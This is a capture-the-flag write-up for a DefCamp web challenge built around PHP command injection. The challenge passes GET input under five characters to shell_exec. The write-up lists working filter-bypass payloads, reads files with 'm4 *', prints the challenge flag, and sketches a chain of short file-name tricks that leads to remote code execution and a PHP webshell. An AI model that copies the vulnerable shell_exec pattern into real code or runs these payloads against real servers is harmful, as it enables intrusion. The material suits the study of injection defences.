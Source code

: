 # DefCamp CTF - para-code

## Description
Command injecion 4 characters limited
```php
if (strlen($_GET['start']) < 5){
  echo shell_exec($_GET['start']);
}
```

If we can inject `cat *`, we could read all files in the directory but this command has 5 characters so it's doesn't work.

## Bypass black-listed
**Search**: 

php tricks hacktricks: https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp

bypass bash restrictiosn: https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions

**Bypassed
```
'l's # flag.php, index.php
l''s # still good
p\s # processes
env
```

## Bypass using short command of cat

**Search**: 

Linux two letters command: https://www.davekb.com/browse_computer_tips:linux_two_letter_commands:txt

```bash
# using m4(same as cat)
m4 *
```
Remember to check the `source-code` of the result

**flag**: `791b21ee6421993a8e25564227a816ee52e48edb437909cba7e1e80c0579b6be`

## Extended to RCE

**In bash, write file input from stdin**:
```bash
>cmd.php
#> <?php system('id'); ?>
cat cmd.php # <?php system('id'); ?>
```

**From that, we got**:
```bash
>php # newline - end command here!
>ex.\\
>ind\\
>\ \\
>cat\\

ls -t>_ # sort by time, in real senario, we have to write a file for this task, just like below

sh _
# hello
```

`_` file:
```bash
cat _
#_            error command/not command raise error but still being ignored and keep running!!
#cat\
# \
#ind\
#ex.\
#php
#index.php
```

# References:
https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2
